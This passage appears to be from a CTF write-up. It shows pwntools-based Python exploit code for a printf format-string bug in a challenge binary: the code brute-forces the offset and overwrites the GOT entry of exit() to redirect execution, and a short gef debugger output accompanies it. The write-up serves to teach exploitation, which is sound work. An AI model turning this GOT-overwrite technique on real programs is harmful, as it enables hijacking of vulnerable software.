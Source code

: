 After the CTF, I realised that pwntools actually has a nice function specifically for this kind of `printf()` challenge: the unreferenced [`fmtstr_split()`](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/fmtstr.py#L743). The code above can be modified to be a lot less hardcoded, and more algorithmically sensible:

```python
from pwnscripts import *
context.binary = 'beta_reporting'
def printf(s,name):
    ...
    r.sendlineafter('menu: \n', '1')
    r.recvline()
    return r, r.recvline()
# compute printf() offset via pwnscripts
offset = fsb.find_offset.buffer(lambda s:printf(s,'AAAA')[1], 10)
# run printf() with a bipartite payload from pwn.make_payload_dollar()
r,_ = printf(*fmtstr_split(offset, {context.binary.got['exit']: p16(context.binary.symbols['unknownfunction']&0xffff)}, write_size='short'))

r.sendlineafter('menu: \n', '0')
...
```
`fsb.find_offset.buffer()` is a [creation of my own](https://github.com/152334H/pwnscripts), and it'll bruteforce the offset to the first time it sees `"AAAA"`. This exists as a pwntools feature too (cf. [`pwn.FmtStr`](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/fmtstr.py#L816)), but I'm more familiar with my own tools :P

The other complex line below it has two special points of note:
 * the value in the write-dict passed (`unknownfunction`) is wrapped with `p16` to ensure that the minimal amount of writing happens. This works because the original value at an unused GOT function happens to lie in the same memory page:
   ```
   gef➤  telescope 0x804b028
   0x0804b028│+0x0000: 0x08048556  →  0x00003868 ("h8"?)
   ```
 * `write_size` is set to short to ensure that only 1 address is written to by printf(). This is done because the offset found above will end up catching the 4 bytes copied higher up in the stack (cf. line 88, `"this is strange & should raise red flags."`), rather than the genuine beginning of the offset to `name[]`, which will mess up the hypothetical multi-address write from `write_size='byte'`.